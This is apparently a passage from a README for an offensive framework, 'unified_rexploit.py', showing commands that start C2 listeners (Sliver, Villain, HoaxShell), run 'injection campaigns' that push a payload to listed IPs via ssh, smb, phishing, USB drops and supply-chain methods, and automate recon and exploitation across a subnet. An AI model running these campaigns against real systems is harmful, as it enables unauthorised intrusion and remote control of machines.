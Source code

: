 #### Injection Vectors:
- **8 Injection Types**: sql_injection, xss_injection, command_injection, ldap_injection, xpath_injection, nosql_injection, template_injection, code_injection
- **Pre-built Payloads**: 10+ payloads per injection type
- **Organized Storage**: Payloads stored in organized directories with metadata

### 4. Enhanced C2 Framework Management

```bash
# Start C2 with automation
python3 unified_rexploit.py c2 --framework villain --start --auto-listener --automation

# Check status with session info
python3 unified_rexploit.py c2 --framework villain --status --sessions --listeners
```

#### C2 Enhancements:
- **3 Framework Support**: Sliver, Villain, HoaxShell
- **Automatic Listener Setup**: Auto-configure listeners on startup
- **Session Management**: Track and manage multiple sessions
- **Background Automation**: Automated command execution and intelligence gathering

### 5. Professional Injection Campaigns

```bash
# Run professional injection campaign
python3 unified_rexploit.py campaign --name "red_team_test" \
  --payload payloads/advanced_python_advanced_20250918_211641.py \
  --targets 192.168.1.10 192.168.1.20 192.168.1.30 \
  --methods ssh smb http phishing
```

#### Campaign Features:
- **12+ Injection Methods**: ssh, smb, http, web_upload, email_attachment, usb_drop, social_engineering, supply_chain, watering_hole, dns_hijack, mitm, phishing
- **Success Tracking**: Detailed statistics and success rates
- **Target Validation**: Pre-injection connectivity and validation checks
- **Professional Reporting**: Comprehensive campaign results and analytics

### 6. Automation Workflows

```bash
# Start automated reconnaissance and exploitation workflow
python3 unified_rexploit.py automation start \
  --template recon_and_exploit \
  --name "target_assessment" \
  --targets 192.168.1.0/24 \
  --delay 60

# Monitor workflow progress
python3 unified_rexploit.py automation status --name target_assessment

# List all workflows
python3 unified_rexploit.py automation list
```
